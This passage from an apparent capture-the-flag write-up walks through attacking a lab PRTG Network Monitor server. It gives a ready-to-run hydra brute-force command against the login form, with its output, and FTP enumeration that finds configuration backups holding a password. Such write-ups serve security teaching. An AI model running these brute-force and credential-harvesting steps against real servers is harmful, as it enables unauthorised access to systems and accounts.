 # Passive Enumeration II
### **Bruteforce Password I**
When we enter a set of credentials, a request is sent to http://10.10.10.152/public/checklogin.htm with POST parameters of username, password and loginurl. I started a hydra scan against these values using rockyou.txt and username as 'prtgadmin'.

```
$ hydra -T4 -l prtgadmin -P /usr/share/wordlists/rockyou.txt 10.10.10.152 http-post-form "/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again\!"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-11 19:38:48
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking http-post-form://10.10.10.152:80/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again!
```
As the brute-force was in progress, I searched for default credentials for the PRTG Network Monitor in the meanwhile. A reddit [post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) identified the following directory, C:\ProgramData\Paessler\PRTG Network Monitor\, as storing configuration details for the application. So, we go back to the FTP share to check if the contents are available to us.

### **Enumerating FTP again**
The directory, C:\ProgramData\Paessler\PRTG Network Monitor\, is accessible and contains the  previous version and backup of the configuration file that we found earlier.

```
ftp> cd "\ProgramData\Paessler\PRTG Network Monitor"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
06-10-21  06:59PM       <DIR>          Configuration Auto-Backups
06-10-21  08:00PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
06-11-21  12:00AM       <DIR>          Logs (Web Server)
06-10-21  08:01PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
06-11-21  08:59AM              1725718 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
```
Fetching the two files and going through them, we find a password in the backup file.
